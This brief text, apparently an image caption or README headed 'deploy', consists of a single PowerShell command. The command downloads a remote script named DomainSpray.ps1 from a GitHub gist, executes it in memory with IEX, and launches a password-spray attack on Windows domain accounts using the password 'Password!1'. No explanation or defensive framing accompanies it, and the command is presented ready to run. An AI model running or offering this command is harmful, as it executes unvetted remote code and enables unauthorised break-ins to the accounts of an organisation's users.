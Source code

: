 # deploy

## IEX (New-Object Net.WebClient).DownloadString('https://gist.githubusercontent.com/launchsilo/20f7946d5253b78ca891cd50b3e4cae2/raw/edb6e83ffe0cbad48f9644d6e919c4d56b691c13/DomainSpray.ps1') ; Invoke-DomainPasswordSpray -Password Password!1

